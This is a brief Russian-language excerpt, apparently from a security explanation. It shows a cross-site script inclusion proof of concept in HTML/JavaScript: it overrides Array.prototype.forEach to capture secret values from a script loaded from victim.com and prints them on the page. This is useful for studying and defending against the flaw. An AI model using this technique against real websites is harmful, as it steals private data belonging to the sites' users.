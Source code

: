 Чувствительные данные могут быть раскрыты с помощью следующего кода JavaScript:

```html
...
 <div id="result">

    </div>
    <script>
      Array.prototype.forEach = function(callback) {
        var resultString = "Вот ваши секреты: <b>";
        for (var i = 0, length = this.length; i < length; i++) {
          if (i > 0) {
            resultString += ", ";
          }
          resultString += this[i];
        }
        resultString += "</b>";
        var div = document.getElementById("result");
        div.innerHTML = resultString;
      };
    </script>
    <script src="http://victim.com/..../javascript.js"></script>
...
```
